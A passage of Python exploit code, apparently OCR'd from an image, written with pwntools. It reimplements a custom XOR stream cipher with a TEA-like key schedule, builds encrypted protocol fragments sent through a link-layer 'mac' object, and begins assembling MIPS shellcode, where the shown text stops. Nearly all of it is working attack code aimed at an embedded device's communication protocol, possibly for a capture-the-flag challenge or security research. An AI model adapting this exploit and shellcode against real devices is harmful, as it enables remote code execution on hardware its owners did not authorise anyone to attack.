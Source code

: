 ```python
        data = list(data)

        while offset != len(data):
            offset2 = offset & 7
            if offset2 == 0:
                self.enc_key = self.update_key(self.enc_key)
            data[offset] ^= self.enc_key[offset2]
            offset += 1

        return bytes(data)

    def update_key(self, key):
        vector = [0x03f4d621, 0xccdd8da7, 0xaf0e3152, 0x4ae98888]
        var3 = u32(key[:4])
        var2 = u32(key[4:])
        var1 = 0x3e778b90
        while True:
            var4 = var1 + vector[var1 & 3]
            var4 &= 0xffffffff

            var1 += 0x83e778b9
            var1 &= 0xffffffff

            var3 += var4 ^ (var2 << 4 ^ var2 >> 5) + var2
            var3 &= 0xffffffff

            var2 += (var1 + vector[var1 >> 11 & 3]) ^ ((var3 * 0x10 ^ var3 >> 5) + var3)
            var2 &= 0xffffffff

            if var1 == 0x7cef1720:
                return p32(var3) + p32(var2)

    def enable_encryption(self):
        assert(self.message_size >= 0x60)

        self.mac.send_pdu(p8(0x17)
                          + p8(0x70)
                          + b'\x00'*(self.message_size-2))
        self.encryption_enabled = True

    @property
    def fragment_size(self):
        return self.message_size-3

    def send_fragment(self, fragment_data, fragment_no, sequence_window=0, end=0):
        assert(len(fragment_data) == self.fragment_size)
        assert(sequence_window < 0x800)
        assert(fragment_no < 0x10)
        assert(end <= 1)

        fragment = (p16(end<<15 | sequence_window<<4 | fragment_no)
                    + fragment_data)
        payload = self.encrypt(fragment)
        self.mac.send_pdu(p8(0x73)
                          + payload)

context.arch = 'mips'
context.bits = 32

shellcode = asm('''
move $s0, $zero

/* load buffer address into a1 */
```